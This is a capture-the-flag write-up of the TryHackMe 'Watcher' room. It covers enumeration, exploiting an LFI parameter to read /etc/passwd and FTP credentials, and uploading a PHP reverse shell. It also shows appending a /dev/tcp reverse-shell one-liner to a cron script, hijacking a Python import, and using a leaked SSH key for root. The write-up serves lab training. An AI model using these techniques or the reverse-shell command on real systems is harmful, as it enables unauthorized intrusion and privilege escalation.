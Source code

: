 ```yaml
---
layout: post
title: Tryhackme - Watcher
date: 2021-03-06 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,reverse-shell,boot2root]
---
```


---
Watcher is a medium level room in Tryhackme. Unlike the usual rooms where you have to get only the user and the root flag, this room had seven flags with the combination of web, user and root flags. The final objective is to get all the flags.

<br>
![cover_image](/assets/img/tryhackme/watcher/1.png)

**Author** | USWCSS
**Description** | A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.


Deploy the VM and let's Hack the machine.

## <ins>Enumeration</ins>
---
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/watcher/nmap_scan.png)
<br>
From the ```nmap scan``` results it is clear that the ports ```21/ftp```, ```22/ssh``` and ```80/http``` ports are open. Since I also included script scanning in the nmap scan, I noticed that ```Anonymous login``` for the ```ftp service``` is not enabled. So, I paid a visit to the ```http service```.
<br>
![http_service](/assets/img/tryhackme/watcher/5.png)
<br>
After running ```gobuster``` to bruteforcing hidden directories and files, I found some promising results.
<br>
<pre>gobuster dir -u http://machine-ip/ -w /usr/share/dirb/wordlists/common.txt -t 40 -x php,html,js,txt</pre>
<br>
![gobuster_results](/assets/img/tryhackme/watcher/4.png)


## <ins>Flag 1</ins>
---
The first thing I checked is the ```robots.txt``` file.
<br>
![robots_txt](/assets/img/tryhackme/watcher/2.png)
<br>
After checking the ```/flag_1.txt``` file we can get the flag 1.
<br>
![flag_1](/assets/img/tryhackme/watcher/3.png)


## <ins>Flag 2</ins>
---
Checking the other file in the robots.txt file it shows an ```403``` meaning ```Forbidden```. Coming back to the home page, I clicked on the post and found that the parameter ```?post=``` is vulnerable to ```LFI```. I tried retrieving the ```/etc/passwd``` file and was successful.
<br>
![lfi_vuln](/assets/img/tryhackme/watcher/6.png)
<br>
Then I tried to view the other file mentioned in the robots.txt file. This will give the ```ftp credentials```.
<br>
![ftp_creds](/assets/img/tryhackme/watcher/7.png)
<br>
Logging in to the ftp service we can get the flag 2. You can download the flag using the ```get flag_2.txt``` command.
<br>
![ftp_service](/assets/img/tryhackme/watcher/8.png)
<br>
![flag_2](/assets/img/tryhackme/watcher/12.png)


## <ins>Flag 3</ins>
---
Continuing with the ftp service, I noticed that the ```files``` directory in the ftp service is the same as the directory mecntioned in the secret file: ```/home/ftpuser/ftp/files```. I grabbed a php reverse shell and edited the ```ip``` and the ```port``` fields and uploaded it. You can do the same using the command ```put php-reverse-shell.php```.
<br>
![revs_php](/assets/img/tryhackme/watcher/9.png)
<br>
Now, we can get a reverse shell by going issuing a ```GET``` request to the url ```http://machine-ip/post.php?post=/home/ftpuser/ftp/files/revs.php```. Remember to open a netcat listener on your local machine.
<br>
![reverse_shell](/assets/img/tryhackme/watcher/10.png)
<br>
The first thing I did after getting the reverse shell is locating all the flags.
<br>
<pre>find / -name flag_* -type f 2>/dev/null</pre>
<br>
![flag_location](/assets/img/tryhackme/watcher/11.png)
<br>
From this we can read the flag 3.
<br>
![flag_3](/assets/img/tryhackme/watcher/13.png)
<br>


## <ins>Flag 4</ins>
---
After running ```sudo -l``` I found that anything can be run as the user ```toby```.
<br>
![sudo_l](/assets/img/tryhackme/watcher/14.png)
<br>
Use this to get the shell for the user ```toby```.
<br>
<pre>sudo -u toby /bin/bash</pre>
<br>
![toby_shell](/assets/img/tryhackme/watcher/15.png)
<br>
We can get the fourth flag with this.
<br>
![flag_4](/assets/img/tryhackme/watcher/16.png)
<br>


## <ins>Flag 5</ins>
---
After checking some usual things for lateral movement I found that the file ```cow.sh``` is run as ```cronjob```.
<br>
![cron_job](/assets/img/tryhackme/watcher/17.png)
<br>
Edit the file with the reverse shell payload.
<br>
<pre>echo "bash -i >& /dev/tcp/your-vpn-ip/4444 0>&1" >> /home/toby/jobs/cow.sh</pre>
<br>
Remember to open a netcat listener.
<br>
![reverse_shell](/assets/img/tryhackme/watcher/18.png)
<br>
And baam!! We can get the fifth flag.
<br>
![flag_5](/assets/img/tryhackme/watcher/19.png)
<br>


## <ins>Flag 6</ins>
---
I found a text file in the home directory of the user ```mat```.
<br>
![note_txt](/assets/img/tryhackme/watcher/20.png)
<br>
After looking into the ```/scripts``` directory, I found two files. The file ```cmd.py``` is owned by the user ```mat``` and the file ```will_script.py``` is owned by the user ```will```.
<br>
<pre>
###cmd.py###

def get_command(num):
	if(num == "1"):
		return "ls -lah"
	if(num == "2"):
		return "id"
	if(num == "3"):
		return "cat /etc/passwd"


###will_script.py###

import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
	print("Invalid command!")
	exit()

os.system(cmd)
</pre>
<br>

Since the ```cmd.py``` is editable we can get the reverse shell using this. First we need to get the ```tty```. Use the following commands to get the ```tty``` shell.
<br>
<pre>
Ctrl+z
stty raw -echo;fg
reset
xterm-256color
export TERM=xterm-256color
</pre>
<br>
After getting the ```tty``` shell edit the file to look like this.
<br>
![file_edit](/assets/img/tryhackme/watcher/21.png)
<br>
Remeber to open a netcat listener in your local machine.
<br>
![reverse_shell](/assets/img/tryhackme/watcher/22.png)
<br>
We got the sixth flag.

## <ins>Flag 7</ins>
---
After checking the ```id```, I found that we are in same group as ```adm```. So, I searched the files that are owned by ```adm``` using ```find```.
<br>
![file_find](/assets/img/tryhackme/watcher/23.png)
<br>
Found an interesting file in the ```/opt/backups``` directory with the name ```key.b64```. Cat-ing the contents of the files, found that it is ```base64``` encoded. After decoding it contents found that it is a ```ssh private key```. Save it in your local machine.
<br>
![id_rsa](/assets/img/tryhackme/watcher/24.png)
<br>
Change the permissions of the file using ```chmod 600 id_rsa```.
<br>
<pre>ssh root@machine-ip -i id_rsa</pre>
<br>
After logging in to ssh using the private key file we can get the root flag.
<br>
![root_flag](/assets/img/tryhackme/watcher/25.png)
<br>

We got all the seven flags.

That's it folks. Happy hacking!!!
